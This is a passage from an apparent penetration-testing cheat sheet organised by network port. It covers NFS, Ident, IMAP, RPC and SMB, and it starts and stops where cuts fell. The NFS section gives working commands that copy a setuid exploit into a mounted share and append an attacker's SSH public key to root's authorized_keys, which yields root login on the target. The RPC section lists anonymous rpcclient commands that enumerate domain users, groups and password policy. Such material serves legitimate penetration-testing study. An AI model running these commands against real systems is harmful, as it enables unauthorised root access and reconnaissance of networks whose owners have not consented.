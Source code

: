 ```bash
$ cp /root/Desktop/x /tmp/mymount/
$ chmod u+s exploit
```

Attack scenario: replace target SSH keys with your own
```
$ mkdir -p /root/.ssh
$ cd /root/.ssh/
$ ssh-keygen -t rsa -b 4096
Enter file in which to save the key (/root/.ssh/id_rsa): hacker_rsa
Enter passphrase (empty for no passphrase): Just Press Enter
Enter same passphrase again: Just Press Enter
$ mount -t nfs 192.168.1.112:/ /mnt -o nolock
$ cd /mnt/root/.ssh
$ cp /root/.ssh/hacker_rsa.pub /mnt/root/.ssh/
$ cat hacker_rsa.pub >> authorized_keys                     # add your public key to authorized_keys
$ ssh -i /root/.ssh/hacker_rsa root@192.168.1.112           # SSH to target using your private key
```

### Ident - TCP 113

Ident is a protocol that helps identify the user of a particular TCP connection.

Follow instructions to install ident-enum tool: http://pentestmonkey.net/tools/ident-user-enum


### IMAP - TCP 143

hMAilServer 4.4.2 - 'PHPWebAdmin' File Inclusion
* https://www.exploit-db.com/exploits/7012

### RPC/MSRPC - TCP 135

Rpcclient enumeration:
```bash
# Initial enum
$ rpcclient -U "" -N 10.11.1.136 -c $i
rpcclient> srvinfo
rpcclient> enumdomains
rpcclient> querydominfo
rpcclient> enumdomusers
rpcclient> enumdomgroups
rpcclient> getdompwinfo

# Follow up enum
rpcclient> querygroup 0x200
rpcclient> querygroupmem 0x200
rpcclient> queryuser 0x3601
rpcclient> getusrdompwinfo 0x3601
```


### SMB NETBIOS SMBD - TCP 139,445
SMB is a communications protocol primarily designed for file sharing and printer sharing. It is not intended as a general networking tool.  
